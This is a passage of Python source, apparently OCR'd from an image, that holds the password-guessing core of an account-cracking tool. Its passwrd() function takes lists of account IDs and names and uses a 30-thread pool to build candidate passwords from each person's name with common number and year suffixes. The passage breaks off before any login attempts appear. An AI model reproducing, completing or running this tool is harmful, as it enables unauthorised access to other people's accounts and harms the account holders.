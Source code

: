 def passwrd():
	os.system('clear')
	#banner()
	print("")
	print(f'\033[1;32m➣ \033[1;37m DATE : '+str(dddd)+'-'+str(mmmm)+'-'+str(yyyy)+'')
	print("\033[1;32m➣ \033[1;37m TOTAL ID : "+str(len(id)))
	print("")
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(nmf)
					pwv.append(frs+'12')
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'123456')
					pwv.append(frs+'1234567')
					pwv.append(frs+'1234567890')
					pwv.append("123"+frs)
					pwv.append("1234"+frs)
					pwv.append("12345"+frs)
					pwv.append("123456"+frs)
					pwv.append("1234567"+frs)
					pwv.append("12345678"+frs)
					pwv.append("123456789"+frs)
					pwv.append(frs+'123321')
					pwv.append(frs+'1122')
					pwv.append(frs+'112233')
					pwv.append(frs+'2023')
					pwv.append(frs+'2022')
					pwv.append(frs+'2021')
					pwv.append(frs+'2020')
					pwv.append(frs+'2008')
					pwv.append(frs+'2007')
					pwv.append(frs+'2006')
					pwv.append(frs+'2005')
					pwv.append(frs+'2004')
					pwv.append(frs+'2003')
					pwv.append(frs+'11223344')
					pwv.append(frs+'1122334455')
					pwv.append(frs+'112233445566')
					pwv.append(frs+frs)
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+'12')
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'123456')
					pwv.append(frs+'1234567')
					pwv.append(frs+'1234567890')
					pwv.append("123"+frs)
					pwv.append("1234"+frs)
					pwv.append("12345"+frs)
					pwv.append("123456"+frs)